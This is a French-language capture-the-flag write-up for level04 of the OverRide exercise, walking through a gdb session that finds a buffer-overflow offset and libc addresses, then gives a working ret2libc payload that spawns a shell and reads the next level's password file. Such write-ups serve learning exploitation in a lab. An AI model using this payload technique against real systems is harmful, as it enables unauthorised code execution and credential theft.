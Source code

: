 ### level04

Dans cet exercice le programme effectue un fork et on est confronté à plusieurs mesures empechant d'executer un shellcode.
On va donc suivre le child et on cherche l'offset puis les adresse de exit, system et "bin/sh" pour faire un ret2libc.
On utilise un pattern generator pour l'overflow : https://wiremask.eu/tools/buffer-overflow-pattern-generator/?

```bash
level04@OverRide:~$ gdb -q level04 
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04 
[New process 1751]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1751]
0x41326641 in ?? ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) i proc map
process 1751
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fd8000 0xf7fda000     0x2000        0x0 
	0xf7fda000 0xf7fdb000     0x1000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

La valeur de eip "0x41326641" lors de l'overflow nous indique un offset de 156

adresse de system : 0xf7e6aed0
adresse d'exit : 0xf7e5eb70
adresse de la string "/bin/sh" dans le programme : 0xf7f897ec

Le principe d'un ret2libc est que lorsque le programme va appeler une fonction, on aura remplacé son adresse par celle d'une autre fonction de la libc.
Ici le programme va vouloir appeler exit mais à la place il va appeler system en lui faisant lancer un bash.

On a toutes les données nécessaires, il ne reste plus qu'à écrire la commande pour effectuer le ret2libc.

```bash
(python -c "print('A' * 156 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7')"; python -c "print('cat /home/users/level05/.pass')"; cat) | ./level04
```
